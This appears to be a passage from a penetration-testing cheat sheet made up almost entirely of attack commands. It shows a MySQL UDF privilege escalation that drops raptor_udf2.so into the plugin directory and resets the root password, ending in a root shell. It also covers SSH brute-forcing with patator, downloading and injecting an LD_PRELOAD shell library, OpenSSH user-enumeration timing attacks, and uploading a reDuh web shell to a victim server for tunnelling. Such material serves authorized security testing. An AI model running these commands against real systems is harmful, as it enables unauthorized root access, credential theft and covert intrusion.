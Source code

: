 $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root -p
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
mysql> select do_system('echo "root:passwd" | chpasswd > /tmp/out; chown user:user /tmp/out');

user:~$ su -
Password:
user:~# whoami
root
root:~# id
uid=0(root) gid=0(root) groups=0(root)
Bruteforce SSH login with patator
root:~# patator ssh_login host=192.168.0.18 user=FILE0 password=FILE1 0=word.txt 1=word.txt -x ignore:mesg='Authentication failed.'
Using LD_PRELOAD to inject features to programs
$ wget https://github.com/jivoi/pentest/ldpreload_shell.c
$ gcc -shared -fPIC ldpreload_shell.c -o ldpreload_shell.so
$ sudo -u user LD_PRELOAD=/tmp/ldpreload_shell.so /usr/local/bin/somesoft
Exploit the OpenSSH User Enumeration Timing Attack
# https://github.com/c0r3dump3d/osueta
$ ./osueta.py -H 192.168.1.6 -p 22 -U root -d 30 -v yes
$ ./osueta.py -H 192.168.10.22 -p 22 -d 15 -v yes –dos no -L userfile.txt
Create a TCP circuit through validly formed HTTP requests with ReDuh
# https://github.com/sensepost/reDuh

# step 1
# upload reDuh.jsp to victim server
$ http://192.168.10.50/uploads/reDuh.jsp

# step 2
# run reDuhClient on attacker
$ java -jar reDuhClient.jar http://192.168.10.50/uploads/reDuh.jsp

# step 3
# connecting to management port with nc
$ nc -nvv 127.0.0.1 1010
